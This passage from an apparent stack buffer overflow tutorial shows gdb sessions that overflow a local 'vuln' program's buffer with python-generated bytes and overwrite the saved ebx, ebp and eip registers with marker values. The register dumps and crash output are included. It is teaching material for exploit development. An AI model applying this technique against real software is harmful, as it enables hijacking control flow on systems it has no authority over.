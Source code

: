Beforehand let's slightly tweak our payload to make it more visible on
the stack representation, instead of 'A' we will replace the 4
overflowed bytes with 'B' (`x42`):

```bash
(gdb) run $(python3 -c "print('\x41'*500+'\x42'*4)") 
Starting program: ./vuln $(python3 -c "print('\x41'*500+'\x42'*4)") 

Breakpoint 1, 0x080491ac in main (argc=2, argv=0xffffd0b4) at vuln.c:7
7       } 
(gdb) x/14x $sp+460
0xffffcfbc:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcfcc:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcfdc:     0x41414141      0x41414141      0x42424242      0x00000000
0xffffcfec:     0xf7dad119      0x00000002
```

Now let's overwrite every register following our buffer, `ebx` with
'BBBB', `ebp` with 'CCCC' and `eip` with 'DDDD':

```bash
(gdb) run $(python3 -c "print('\x41'*500+'\x42'*4+'\x43'*4+'\x44'*4)") 

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```
```bash
(gdb) info registers
[...]
ebx            0x42424242          1111638594
esp            0xffffcff0          0xffffcff0
ebp            0x43434343          0x43434343
esi            0x804b0e0           134525152
edi            0xf7ffcb80          -134231168
eip            0x44444444          0x44444444
[...]
```

```bash
(gdb) (gdb) x/14x $sp+460
0xffffcfbc:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcfcc:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcfdc:     0x41414141      0x41414141      0x42424242      0x43434343
0xffffcfec:     0x44444444      0x00000000
```

You will likely need to step through your code until you exit main 
(and then see the overwritten eip register this is the point of the crash)

```bash
(gdb) run $(python3 -c "print('\x41'*500+'\x42'*4+'\x43'*4+'\x44'*4)") 
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/khaefner/Development/buffer_overflow/vuln $(python3 -c "print('\x41'*500+'\x42'*4+'\x43'*4+'\x44'*4)")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x565561c3 in main (argc=0, argv=0xffffd134) at vuln.c:8
8	}
(gdb) info registers
eax            0x0                 0
ecx            0xffffd4e0          -11040
edx            0xffffd07b          -12165
ebx            0x42424242          1111638594
esp            0xffffce80          0xffffce80
ebp            0xffffd078          0xffffd078
esi            0x56558eec          1448447724
```